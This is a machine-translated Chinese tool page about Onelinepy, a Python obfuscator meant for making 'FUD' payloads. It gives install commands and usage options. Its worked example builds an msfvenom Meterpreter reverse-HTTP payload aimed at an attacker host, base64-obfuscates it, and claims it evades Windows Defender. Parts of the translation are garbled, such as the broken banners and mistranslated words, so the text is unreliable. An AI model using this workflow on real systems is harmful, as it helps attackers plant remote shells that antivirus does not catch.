

# Onelinepy : Python Obfuscator，用于生成一行程序和 FUD 负载

> 原文：<https://kalilinuxtutorials.com/onelinepy/>

Onelinepy 是一个 Python 混淆器，用于生成一行程序和 FUD 负载。

**下载&运行**

**git 克隆 https://github.com/spicesouls/onelinepy
CD oneline py
chmod+x setup . sh
。/setup.sh
onelinepy**

**使用指南**

**_*|*|*|*_ _
|。| |–*| | |–*|。| | | Python
| |*| | |*|*|*|*|*|*| | | Obfustucator | _ | |*|
用法:oneline . py[-h][-M M][-I I][–SCRIPT SCRIPT][–CODE CODE][–list][–OUTPUT]
可选参数:
-h，–help 显示此帮助消息并退出
–将 Python 文件的脚本文件路径写到 Obfustucate。
–CODE CODE Python CODE to Obfustucate。
–列出各种方法。
–输出输出输出文件。**

##### **示例:创建 FUD Meterpreter Python 有效负载**

*   生成 Python 有效负载:

`**msfvenom --payload python/meterpreter_reverse_http LHOST=... LPORT=... > payload.txt**`

*   倒刺有效载荷

`**onelinepy -m /one_line/base64 --script payload.txt -i 3 --output obfustucated_payload.txt**`

*   利润！Obfustucated 有效负载对 Windows Defender 起作用。

**更多例子**

**oneline py-m/one _ line/base64–脚本有效载荷. py -i 3**

**oneline py-m/one _ line/HEX–code " print(' HEX！')"**

**Obfustucation 方法列表**

**_*|*|*|*_ _
|。| |–*| | |–*|。| | | Python
| |*| | |*|*|*|*|*|*| | | Obfustucator | _ |*|
Obfustucator(* =可能导致语法错误)
-= = = = = = = = = = = = =-
0/one _ line/hex
1/one _ line/base 64
2/one _ line/base 32**

[**Download**](https://github.com/spicesouls/onelinepy)